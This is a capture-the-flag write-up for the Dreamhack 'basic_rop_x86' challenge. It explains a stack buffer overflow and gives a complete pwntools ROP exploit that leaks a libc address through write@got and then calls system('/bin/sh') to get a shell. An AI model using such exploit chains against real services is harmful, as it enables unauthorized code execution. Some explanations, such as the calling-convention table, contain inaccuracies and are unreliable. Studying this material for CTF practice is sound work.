

# General Information

```bash
alter ^ Sol in ~/Dreamhack/basic_rop_x86
$ file basic_rop_x86
basic_rop_x86: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f503da94f0f9ad92df1befc729116dd694f2446f, not stripped
alter ^ Sol in ~/Dreamhack/basic_rop_x86
$ checksec basic_rop_x86
[*] '/home/alter/Dreamhack/basic_rop_x86/basic_rop_x86'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

- **Source code**

    ```bash
    #include <stdio.h>
    #include <stdlib.h>
    #include <signal.h>
    #include <unistd.h>

    void alarm_handler() {
        puts("TIME OUT");
        exit(-1);
    }

    void initialize() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);

        signal(SIGALRM, alarm_handler);
        alarm(30);
    }

    int main(int argc, char *argv[]) {
        char buf[0x40] = {};

        initialize();

        read(0, buf, 0x400);
        write(1, buf, sizeof(buf));

        return 0;
    }
    ```


In general, the program gets our input and prints it back. The `buf` is declared with 0x40 byte and initialized to zero but the `read` function reads `0x400` bytes from our input → `Buffer Overflow`

# Exploit

This program arch is `x86` so there is a little bit of difference from `x64` calling convention. Below is a table comparing the **x86** and **x64** calling conventions:

| **Feature** | **x86 (32-bit)** | **x64 (64-bit)** |
| --- | --- | --- |
| **Parameter Passing** | On the stack (left to right) | First **4 parameters** in **registers**, rest on stack. |
| **Registers Used** |  `eax` `ecx` `edx` (caller saved) | `rdi`, `rsi`, `rdx`, `rcx` (Linux) or `rcx`, `rdx`, `r8`, `r9` (Windows). |
| **Return Values** | Stored in `eax` (or `edx:eax` for 64-bit values). |
Stored in `rax` . |
| **Stack Alignment** | Aligned to **4 bytes**. | Aligned to **16 bytes** |
| **Stack Cleanup** | By **caller** (`cdecl`) or **callee** (`stdcall`). | Always by the **caller**. |
| **Calling Convention Variants** | `cdecl`, `stdcall`, `fastcall`, etc. | Standardized (`System V` on Linux, `Microsoft x64` on Windows). |

Back to our challenge because our goal is to execute the `system()` so first we need to leak some necessary address

## Leak address

In the context of **x86 architecture** and **Return-Oriented Programming (ROP)**, even though the **arguments are passed via the stack** (not registers), gadgets are needed to "fix" or properly **set up the stack in the correct order** for the function call.

```bash
$ ROPgadget --binary basic_rop_x86 | grep "pop"
0x080483d4 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048685 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d6 : add esp, 8 ; pop ebx ; ret
0x0804869f : arpl word ptr [ecx], bx ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048684 : jecxz 0x8048609 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048683 : jne 0x8048668 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d2 : lcall 0x8c4, 0x83000000 ; pop ebx ; ret
0x080483d7 : les ecx, ptr [eax] ; pop ebx ; ret
0x08048686 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048687 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x0804868b : pop ebp ; ret
0x08048688 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d9 : pop ebx ; ret
0x0804868a : pop edi ; pop ebp ; ret
0x08048689 : pop esi ; pop edi ; pop ebp ; ret
```

I’ll choose **`pop esi ; pop edi ; pop ebp ; ret`** and **`pop ebx ; ret`**. Because
using **`pop esi; pop edi; pop ebp; ret`** and **`pop ebx; ret`** in x86 ROP helps properly set up function arguments on the stack. The first gadget (**`pop esi; pop edi; pop ebp; ret`**) pops three values off the stack, aligning or discarding unwanted data and placing required arguments into specific registers or stack positions. The second gadget (**`pop ebx; ret`**) sets another argument (like `fd`, `buf`, or `count`) for the target function. These gadgets ensure the stack matches the expected layout for the function call, as `x86` functions rely on arguments passed in reverse order via the stack.

- **Part 1 of exploit**

    ```python
    pop_three_ret = 0x08048689
    pop_one_ret = 0x080483d9
    # read_plt = exe.plt['read']
    # read_got = exe.got['read']
    # puts_plt = exe.plt['puts']
    # write_plt = exe.plt['write']
    # main = exe.sym['main']

    # Stage 1: Leak libc address

    # write(1,read@got,0x40)
    pl = b'A' * 0x48
    pl += p32(exe.plt.write)
    pl += p32(pop_three_ret)
    pl += p32(0x1)
    pl += p32(exe.got.read)
    pl += p32(0x40)
    pl += p32(exe.sym.main)
    s(pl)

    ru(b'A'*0x40)
    leak_libc = u32(rnb(4))
    libc.address = leak_libc - libc.sym.read
    slog("Libc leak",leak_libc)
    slog("Libc base", libc.address)
    slog("System", libc.sym.system)
    slog("/bin/sh", next(libc.search(b'/bin/sh')))
    ```

    So here the reason for using the **`pop_three_ret`** gadget in this exploit is to correctly set up the three arguments required by the `write` function in the right order on the stack. Since `write` expects its arguments in reverse order (first `count`, then `buf`, and lastly `fd`), the `pop_three_ret` gadget helps align the stack by popping values onto it in the correct sequence. This ensures that when the `write` function is called, it receives the correct arguments: `0x1` (`stdout`), `exe.got.read` (the address of `read` in the GOT), and `0x40` (the number of bytes to write).

    One alternative approach is to avoid using `pop_three_gadget` altogether. Instead, we can directly replace it with the main address, which serves as the return address once the function has finished executing. This method streamlines the process by bypassing the need for an additional gadget, simplifying the flow and making the exploit more efficient. By placing the return address at the proper location, we can control the execution and achieve our desired result without relying on external gadgets. This will look like this:

    

    - **Part 1 of exploit (not use `pop_three_gadget`)**

        ```python
        # Stage 1: Leak libc address

        # write(1,read@got,0x40)
        pl = b'A' * 0x48
        pl += p32(exe.plt.write)# main saved rip has been overwrited
        pl += p32(exe.sym.main) # ret address
        pl += p32(0x1)          # arg 1
        pl += p32(exe.got.read) # arg 2
        pl += p32(0x40)         # arg 3

        s(pl)

        ru(b'A'*0x40)
        leak_libc = u32(rnb(4))
        libc.address = leak_libc - libc.sym.read
        slog("Libc leak",leak_libc)
        slog("Libc base", libc.address)
        slog("System", libc.sym.system)
        slog("/bin/sh", next(libc.search(b'/bin/sh')))
        ```


## Get shell

Once all the necessary information is gathered, such as the leaked `libc` address, obtaining a shell becomes straightforward. With the correct offsets and the base address of `libc`, you can craft further ROP chains to execute functions like `system()` or spawn a shell, completing the exploitation.

- **Part 2 of exploit**

    ```python
    # Stage 2: Get shell

    pl2 = b'B' * 0x48
    pl2 += p32(libc.sym.system)
    pl2 += b'C' * 0x4                          # ret address
    pl2 += p32(next(libc.search(b'/bin/sh')))  # arg 1
    s(pl2)
    ```

- **Full exploit**

    ```python
    #!/usr/bin/python3
    from pwncus import *
    from time import sleep

    context.log_level = 'debug'
    exe = context.binary = ELF('./basic_rop_x86_patched', checksec=False)
    libc = ELF('libc.so.6', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    if args.REMOTE:
        con = sys.argv[1:]
        p = remote(con[0], int(con[1]))
    else:
        p = process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    def exploit():

    	# pop_three_ret = 0x08048689
    	# pop_one_ret = 0x080483d9
    	# read_plt = exe.plt['read']
    	# read_got = exe.got['read']
    	# puts_plt = exe.plt['puts']
    	# write_plt = exe.plt['write']
    	# main = exe.sym['main']

    	# Stage 1: Leak libc address

    	# write(1,read@got,0x40)
    	pl = b'A' * 0x48
    	pl += p32(exe.plt.write)# main saved rip has been overwrited
    	pl += p32(exe.sym.main) # ret address
    	pl += p32(0x1)          # arg 1
    	pl += p32(exe.got.read) # arg 2
    	pl += p32(0x40)         # arg 3

    	s(pl)

    	ru(b'A'*0x40)
    	leak_libc = u32(rnb(4))
    	libc.address = leak_libc - libc.sym.read
    	slog("Libc leak",leak_libc)
    	slog("Libc base", libc.address)
    	slog("System", libc.sym.system)
    	slog("/bin/sh", next(libc.search(b'/bin/sh')))
    	sleep(1)

    	# Stage 2: Get shell

    	pl2 = b'B' * 0x48
    	pl2 += p32(libc.sym.system)
    	pl2 += b'C' * 0x4                          # ret address
    	pl2 += p32(next(libc.search(b'/bin/sh')))  # arg 1
    	s(pl2)

    	interactive()

    if __name__ == '__main__':
        exploit()
    ```
